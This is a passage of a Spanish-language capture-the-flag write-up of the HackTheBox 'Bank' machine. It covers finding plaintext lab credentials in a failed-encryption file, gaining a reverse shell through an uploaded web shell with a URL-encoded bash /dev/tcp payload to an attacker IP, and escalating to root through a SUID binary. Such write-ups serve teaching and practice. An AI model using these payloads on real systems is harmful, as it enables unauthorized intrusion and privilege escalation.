Full Name: PvTxn6QusVE78lYC46adGmlc6nH08SxXnquLwlgZgV7pg52kbcxSzT5FgMGoFdm2DQOab5as0hRgmTBy68rF2wljj1HYe41RUP26UczUtqbQkMpqVR6XnrhHsZFG3GyX
Email: vA4qNDlh4x7pjxPfoVdMnutPt9wwP4ulFyLsb7JgERFYpudOqrBOV5Dpe9W3dqoTYalah5qWX5VmA9a1ALPwQsV4CS8QiwJhG5rYaSV7YQtyZEAzpp6gS2kuUslcZ4tG
Password: 9VFkOAsMrWkqAU00k6gc9BH342g37JKhFpCt04fr1ARCvSCPZT28uJbzMrDUbnbQNNkNSAeTa6vFY8uX1w6wgh53JIXU69LTX5HPGWJQ3fw2n00px6VOn1R6KP1QZMKW
CreditCards: 5
Transactions: 68
Balance: 7749713 =
```

### Automatización y filtrado mediante Scripting (dataFilter.sh)

Dada la gran cantidad de recursos expuestos, realizar una inspección manual resultaría ineficiente. Ante la sospecha de que alguna de las operaciones de cifrado programadas en el servidor pudiera haber fallado, se desarrolló un _script_ de automatización en Bash denominado `dataFilter.sh`.

La lógica del _script_ realiza las siguientes acciones de manera secuencial:

1. Descarga e inspecciona de forma iterativa cada uno de los archivos `.acc`.
2. Filtra el contenido buscando la cadena `SUCCESS`. Si un archivo no la contiene, es decir, si el proceso de cifrado falló, el _script_ lo aísla de inmediato.
3. Implementa una rutina de limpieza automática que elimina los archivos no relevantes conforme avanza el bucle, evitando la acumulación de archivos basura y optimizando el almacenamiento en el sistema atacante.



### Resultados del análisis automatizado

Tras ejecutar `dataFilter.sh`, la herramienta identificó con éxito una anomalía en el archivo `68576f20e9732f1b2edc4df5b8533230.acc`. Al analizar su contenido, se confirmó un fallo en la rutina del servidor web (`--ERR ENCRYPT FAILED`), lo que provocó que los datos sensibles se almacenaran en texto plano:

```plaintext
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

### Conclusión del vector alternativo

El fallo de cifrado expuso directamente las credenciales de acceso legítimas del usuario corporativo identificado originalmente en los registros DNS:

- **Usuario:** `chris@bank.htb`
- **Contraseña:** `!##HTBB4nkP4ssw0rd!##`
  
Este hallazgo proporciona un método alternativo y legítimo de autenticación para el panel frontal (`login.php`), permitiendo el ingreso formal a la aplicación bancaria sin necesidad de recurrir a la inyección o manipulación de tráfico malicioso.



---

# 4. Acceso inicial (Intrusión)

Una vez confirmada la ejecución remota de comandos (RCE) a través del archivo `.htb` subido al servidor, se procedió a realizar la intrusión para establecer una sesión interactiva en el sistema objetivo.

Como paso previo e indispensable, se configuró un oyente (_listener_) en la máquina atacante utilizando la herramienta `netcat` para recibir la conexión entrante de la _Reverse Shell_. Se seleccionó el puerto TCP 443 para mitigar posibles restricciones de salida impuestas por reglas de _firewall_ básicas en el objetivo.

**Comando ejecutado en la máquina atacante:**
```bash
sudo nc -nlvp 443
```

A continuación, se envió una petición HTTP dirigida al recurso malicioso (`pwned.htb`) inyectando a través del parámetro `?cmd=` una instrucción en Bash diseñada para redirigir la entrada y salida estándar hacia la dirección IP de la máquina atacante (`10.10.16.102`).

>[!WARNING] **Nota de optimización:** Es fundamental aplicar codificación URL (_URL Encoding_) completa al _payload_ de la _Reverse Shell_. Esto garantiza que caracteres especiales con significado semántico en HTTP (como `&`, `>`, o los espacios) sean interpretados correctamente por el servidor web y no rompan la solicitud.

**Payload codificado enviado en la URL:**

```bash
http://bank.htb/uploads/pwned.htb?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.16.102/443%200%3E%261%22
```

### Resultados obtenidos

La ejecución del _payload_ en el servidor objetivo fue exitosa, logrando que el sistema de manera remota devolviera la conexión hacia el _listener_ de la máquina atacante.

**Captura de la conexión en Netcat:**



Se consolidó el acceso inicial bajo los privilegios del usuario de servicios web **`www-data`**. Como evidencia técnica del compromiso del host y para validar la intrusión en esta primera fase, se procedió a localizar y visualizar el archivo de flag inicial.

----

# 5. Post Explotación (Escalada de privilegios)

Una vez consolidado el acceso inicial como el usuario de bajos privilegios `www-data`, se inició la fase de enumeración local del sistema operativo con el objetivo de elevar privilegios.

Durante una inspección dirigida a identificar archivos con el bit **SUID** (_Set User ID_) activo —los cuales se ejecutan con los privilegios del propietario del archivo y no del usuario que los invoca—, se localizó un binario inusual en una ruta no estándar.

**Comando de enumeración ejecutado:**

```bash
find / -perm -4000 -user root 2>/dev/null
```

Entre los resultados habituales del sistema, se identificó el siguiente vector anómalo perteneciente al usuario `root`:

```bash
/var/htb/bin/emergency
```

Con el fin de analizar su comportamiento y determinar si requería parámetros específicos o sufría de alguna vulnerabilidad de desbordamiento, se procedió a ejecutar el binario directamente desde la sesión interactiva.

### Resultados y obtención de la flag final

Al ejecutar el binario `/var/htb/bin/emergency`, el programa procesó la instrucción otorgando de manera automática e inmediata una consola (_shell_) interactiva con los privilegios del propietario del archivo, evadiendo cualquier restricción de seguridad local.



---
